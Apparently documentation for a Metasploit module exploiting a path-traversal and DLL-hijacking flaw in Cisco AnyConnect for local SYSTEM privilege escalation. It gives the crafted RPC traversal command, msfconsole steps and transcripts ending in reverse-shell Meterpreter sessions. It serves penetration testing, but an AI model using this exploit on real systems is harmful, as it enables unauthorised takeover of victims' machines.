 The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.8.02042 is vulnerable to path traversal and allows local attackers
to create/overwrite files in arbitrary locations with system level privileges.

The attack consists in sending a specially crafted RPC request to the TCP port
62522 on the loopback device, which is exposed by the Cisco AnyConnect Secure
Mobility Agent service. This service will then launch the vulnerable installer
component (`vpndownloader`), which copies itself to an arbitrary location
before being executed with system privileges. Since `vpndownloader` is also
vulnerable to DLL hijacking, a specially crafted DLL (`dbghelp.dll`) is created
at the same location `vpndownloader` will be copied to get code execution with
system privileges.

This exploit has been succesfully tested against Cisco AnyConnect Secure
Mobility Client versions 4.5.04029, 4.5.05030 and 4.7.04056 on Windows 10
version 1909 (x64) and Windows 7 SP1 (x86).

## Vulnerable Application

Unfortunately, AnyConnect Secure Mobility Client is not publicly available.
Only customers with active contracts can download it.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session with non-administrative privileges
  4. Do: ```use exploit/windows/local/anyconnect_path_traversal_lpe```
  5. Do: ```set SESSION <SESSION>```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```set LPORT <LPORT>```
  8. Do: ```check```
  9. Do: ```run```
  10. You should get a new session with system privileges

## Options
  **ForceExploit**

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.7.4056

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] "-ipc" argument needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] RPC Command: "CAC-nc-install	-ipc=1820	C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\nope\nope\nope\nope\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded RPC command (size = 269 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.202
  [*] Meterpreter session 9 opened (172.16.60.1:4445 -> 172.16.60.202:49765) at 2020-06-19 19:35:29 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-UUQE0B4
  OS              : Windows 10 (10.0 Build 18363).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Windows 7 SP1 (x86) with AnyConnect 4.5.5030

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] "-ipc" argument not needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] RPC Command: "CAC-nc-install	C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\nope\nope\nope\nope\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded RPC command (size = 247 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.134
  [*] Meterpreter session 10 opened (172.16.60.1:4445 -> 172.16.60.134:49218) at 2020-06-19 19:41:53 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN7-DEV
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
